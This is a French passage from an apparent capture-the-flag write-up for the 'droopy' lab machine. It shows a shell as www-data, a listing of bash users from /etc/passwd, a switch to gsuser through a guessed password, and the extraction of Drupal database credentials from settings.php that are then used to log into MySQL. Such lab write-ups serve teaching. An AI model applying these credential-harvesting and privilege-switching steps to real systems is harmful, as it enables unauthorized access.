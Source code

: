 Seuls deux utilisateurs ont un accès bash au serveur : ```root``` et ```gsuser```.

Surprise, la tentative login = mot de passe a fonctionné pour le compte ```gsuser``` !

```console
www-data@droopy:/var/www/html$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gsuser:x:1000:1000:Generic User,,,:/home/gsuser:/bin/bash

www-data@droopy:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@droopy:/var/www/html$ su - gsuser
su - gsuser
Password: gsuser

gsuser@droopy:~$ id
id
uid=1000(gsuser) gid=1000(gsuser) groups=1000(gsuser),24(cdrom),30(dip),46(plugdev),110(lpadmin)
```

## Accès à la base de données MySQL

Le fichier ```settings.php``` contient les identifiants de connexion à la base de données du serveur.

```console
www-data@droopy:/var/www/html/sites/default$ sed -n -e 213,227p settings.php
sed -n -e 213,227p settings.php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'nimda',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Et hop, l'accès à la base de données nous est offert.

```console
www-data@droopy:/var/www/html/sites/default$ mysql -u drupaluser -p
mysql -u drupaluser -p
Enter password: nimda

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 105
Server version: 5.5.40-0ubuntu0.14.04.1 (Ubuntu)

--snip--

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
```
